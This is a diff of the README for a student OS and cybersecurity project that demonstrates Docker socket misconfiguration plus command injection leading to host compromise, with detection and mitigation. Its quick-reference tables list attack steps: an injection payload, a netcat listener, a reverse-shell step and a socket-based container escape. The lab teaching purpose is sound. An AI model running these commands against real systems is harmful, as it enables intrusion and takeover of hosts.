

Before and after one commit to Vishmayraj/OS-Project, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 88% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -3,6 +3,32 @@
 **Semester 4 College Project | OS & Cybersecurity**
 
 A demonstration of how a common Docker misconfiguration (mounting `/var/run/docker.sock` into a container) combined with a command injection vulnerability in a web app leads to full host compromise. The project covers the attack, detection, and mitigation.
+
+---
+
+## Repo Structure
+
+```
+OS-Project/
+|   README.md
+|
++---host/
+|       app.py          Flask app with the intentional command injection vulnerability
+|       Dockerfile      Builds the NetDiag image, runs as root (intentional for demo)
+|
++---report/
+|       Docker_Escape_Report.docx
+|       Docker_Escape_Report.pdf
+|       Docker_Escape_Presentation_1.pptx
+|       Docker_Escape_Presentation_1.pdf
+|
++---screenshots/        Screenshots used in the presentation
+|
++---scripts/
+        setup.sh        Run on VM1 (victim) to build and start the vulnerable container
+        attack.sh       Run on VM2 (attacker) to walk through the full attack chain
+        detect.sh       Run on VM1 (victim) after the attack to demonstrate detection
+```
 
 ---
 
@@ -125,7 +192,7 @@ docker -H unix:///var/run/docker.sock run -d \
 
 ### 6. Verify Host Compromise
 
-On VM 1, outside any container:
+On VM1, outside any container:
 
 ```bash
 cat /tmp/escaped.txt
@@ -170,17 +237,17 @@ docker run -v /var/run/docker.sock:/var/run/docker.sock ...
 
 ## Quick Reference
 
-| Step | Machine | Command |
-|------|---------|---------|
-| Build image | VM 1 | `docker build -t netdiag .` |
-| Run with sock | VM 1 | `docker run -d -p 5000:5000 -v /var/run/docker.sock:/var/run/docker.sock --name netdiag-app netdiag` |
-| Start listener | VM 2 | `nc -lvnp 4444` |
-| Trigger RCE | VM 2 | visit `?host=8.8.8.8;id` |
-| Reverse shell | VM 2 | curl with bash payload |
-| Find sock | VM 2 (container) | `ls -la /var/run/docker.sock` |
-| Install CLI | VM 2 (container) | `apt-get update && apt-get install -y docker.io` |
-| Escape | VM 2 (container) | `docker -H unix:///var/run/docker.sock run -d -v /:/hostfs --rm alpine chroot /hostfs sh -c '...'` |
-| Prove access | VM 1 (host) | `cat /tmp/escaped.txt` |
+| Step          | Machine           | Command                                                                 |
+|---------------|-------------------|-------------------------------------------------------------------------|
+| Set IPs       | Both VMs          | Edit `VICTIM_IP` / `ATTACKER_IP` at top of each script                 |
+| Make scripts executable | Both VMs | `chmod +x scripts/*.sh`                                              |
+| Start victim  | VM1               | `bash scripts/setup.sh`                                                 |
+| Run attack    | VM2               | `bash scripts/attack.sh`                                                |
+| Detect        | VM1               | `bash scripts/detect.sh`                                                |
+| Trigger RCE   | VM2 (browser)     | `http://<VICTIM_IP>:5000/ping?host=8.8.8.8;id`                         |
+| Find sock     | VM2 (container)   | `ls -la /var/run/docker.sock`                                           |
+| Escape        | VM2 (container)   | `docker -H unix:///var/run/docker.sock run -d -v /:/hostfs --rm alpine chroot /hostfs sh -c '...'` |
+| Prove access  | VM1 (host)        | `cat /tmp/escaped.txt`                                                  |
 
 ---
 
````
Also changed, not shown: other parts of README.md (+63 -22 lines).
